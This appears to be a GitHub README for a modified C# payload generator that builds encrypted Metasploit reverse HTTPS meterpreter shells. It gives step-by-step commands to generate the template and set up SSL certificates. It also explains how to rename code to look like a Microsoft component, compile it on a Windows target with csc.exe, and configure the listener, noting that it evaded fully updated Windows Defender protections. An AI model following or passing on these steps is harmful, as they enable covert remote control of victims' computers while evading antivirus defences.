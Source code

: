 # Modified_CsharpMMNiceness
modified https://github.com/fullmetalcache/CsharpMMNiceness to support msf5 options.

Great code by fullmetalcache. I added options to use msf5 encrypt and use custom SSL certs in https payloads.

example:
python mod_nice.py -a x64 -P https -l 127.0.0.1 -p 443 -e aes256 -k test123 -ssl msfkey.pem -s

These are my testing steps, I tested both staged and stageless https on a fully patched Windows 10 running real-time and cloud-based protections all fully updated.

1. Set up cert (obviously you can use other certs but I did not test that):
After installing Letsencrypt you need to combine 2 keys to use for the reverse https payload, Letsencrypt stores them in /etc/letsencrypt/live/<yourdomain>/
cat privkey.pem cert.pem >> msfkey.pem
 
2. run the python script:
python mod_nice.py -a x64 -P https -l <listener address> -p 443 -e aes256 -k test123 -ssl /path/msfkey.pem -s
 
3. The script outputs a cs template called mmniceness.cs. Find and replace all function names and variables, etc. I also renamed it to sound like some Microsoft kind of thing, like msvct.cs.
 
4. Move msvct.cs to the Windows target (or precompile but I didn’t test that). 
C:\Windows\Microsoft.NET\Framework64\<whatever version>\csc.exe /unsafe /platform:x64 /out:C:\Windows\Temp\test\msvct.exe C:\Windows\Temp\test\msvct.cs
 
5. set up the handler, staged= windows/x64/meterpreter/reverse_https, stageless= windows/x64/meterpreter_reverse_https
enable https options:
set HANDLERSSLCERT /path/msfkey.pem
set stagerverifysslcert true (don't need this on stageless)
